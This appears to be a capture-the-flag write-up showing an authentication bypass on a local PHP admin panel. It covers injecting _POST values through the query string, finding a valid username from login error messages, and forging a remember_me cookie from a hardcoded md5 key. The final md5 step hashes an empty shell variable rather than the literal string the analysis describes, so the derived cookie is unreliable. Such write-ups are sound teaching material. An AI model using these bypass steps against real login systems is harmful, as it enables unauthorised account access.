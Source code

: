 We need at least `username` and `password` but we do not know either.

Thankfully the app tells us when there is a valid username even with a bad password

Let's try admin :

```
http://127.0.0.1/admin_panel/index.php?_POST[username]=admin&_POST[password]=foo
```

"admin" exists :

![](../attachements/curlify/login_pwd_error.png)

Let's try the "remember me" functionality to login without the password, index.php :

```php
 45         } elseif (isset($_COOKIE["remember_me"]) && !empty($_COOKIE["remember_me"])) {
 46             if ($userinfo) {
 47                 if ($_COOKIE["remember_me"] === generate_remember_me_cookie($username)) {
 48                     $_SESSION["isConnected"] = 1;
 49                     $_SESSION["username"] = $userinfo["username"];
 50                     $_SESSION["user_prefs"] = get_prefs($userinfo["username"], $_SERVER["HTTP_ACCEPT_LANGUAGE"], $DEFAULT_LANGUAGE);
 51                 } else
 52                     $output = '<div class="notification is-danger">Invalid remember_me cookie</div>';
 53             } else
 54                 $output = '<div class="notification is-danger">Invalid Username provided</div>';
 55         } else
 56             $output = '<div class="notification is-danger">Access Denied</div>';
```

We need to set the cookie `remember_me` that is equal to `generate_remember_me_cookie($username)`

```php
  7 function generate_remember_me_cookie($user) {
  8     return $user.md5('$SECRET_KEY');
  9 }
```

Here there must be an error in the code as `'$SECRET_KEY'` doesnt refer to the variable `SECRET_KEY` but the string itself.

So we can construct the cookie, knowing that `$user = 'admin'`

```sh
$ echo -n admin ; md5sum <(echo -n $SECRET_KEY)
admind41d8cd98f00b204e9800998ecf8427e  /proc/self/fd/12
```

So we get our cookie : `admind41d8cd98f00b204e9800998ecf8427e`
